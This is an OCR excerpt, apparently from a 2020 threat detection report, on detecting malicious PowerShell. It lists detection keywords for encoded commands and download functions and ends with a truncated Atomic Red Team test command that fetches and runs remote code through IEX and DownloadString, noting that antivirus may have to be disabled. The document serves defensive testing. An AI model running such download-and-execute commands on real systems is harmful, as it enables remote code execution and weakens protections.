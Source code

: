Adding to this confusion, some versions of certain Endpoint Detection and Response (EDR) platforms are able to collect 
directly injected PowerShell and others are not. Ideally, security teams can run AMSI to alert on what Microsoft deems to be 
30
2020 Threat Detection Report
malicious PowerShell, use ScriptBlock logging to gain visibility into some uses of PowerShell, and then leverage telemetry 
from a capable EDR platform to gain visibility into in\-memory use of PowerShell. The added benefit of having AMSI running 
in your environment is that it provides visibility into JavaScript, WScript, CScript, VBScript, VBA Macros, and User Account 
Control (UAC).Detection suggestions
Once youre collecting the logs necessary to observe malicious instances of PowerShell, you can begin looking for 
process interactions and other artifacts that will reliably alert your security team to anomalous and potentially malicious 
behaviors. As a caveat, many of these suggestions are environment\-dependent and will vary in effectiveness from one 
organization to another.
A good place to start is a review of encoded commands. Not all encoded commands are malicious, but most malicious 
commands are encoded. Looking for encoded or obfuscated command lines will consistently provide value when searching 
for malicious activity. While this may be noisy in some environments, youll want to consider looking for:
 
All variations of the \-encodedcommand switch. (\-e, \-en, \-enc, en, etc.)
 
Strings such as Base64
 
Use of obfuscation characters, such as ^
Weeding out false positivesTo combat the noise, begin whitelisting common encoded commands observed in your environment related to known 
good applications and approved IT activity. Constant tuning of your detection criteria improves the fidelity of alerts, which 
saves analysis time and reduces alert fatigue in your Security Operations Center (SOC).
It may be helpful to monitor all scheduled tasks that were created using PowerShell across your environment. If you are 
able to filter certain command lines, then its worthwhile to look out for any containing URLs. The following alert ideas will 
reliably find malicious PowerShell, but they might also generate a lot of noise:
 
Strings such as http or parsing command lines for invoke\-webrequest, iwr, downloadString, cURL, and wget, to 
name a handful of options 
 
Commands leveraging .NET for modules such as System.Net.WebRequest
From an EDR perspective, tracking process ancestry is another good PowerShell detection strategy. Malicious PowerShell 
often stems from an unusual parent process, such as Microsoft Office applications such as Word or Excel, as is common in 
macro\-laden phishing attacks.
31
Testing
Start testing your defenses against PowerShell using Atomic Red Teaman open source testing framework of small, highly 
portable detection tests mapped to MITRE ATT\&CK.Getting started
View Atomic tests for T1086: PowerShell. In most environments, these should be sufficient to generate a useful signal 
for defenders.Run this test on a Windows system using PowerShell:
Caveat: you may have to disable antivirus to run this test. 
powershell.exe IEX (New\-Object Net.WebClient)
.
DownloadString(https:
raw.githubusercontent.comPowerShellMafia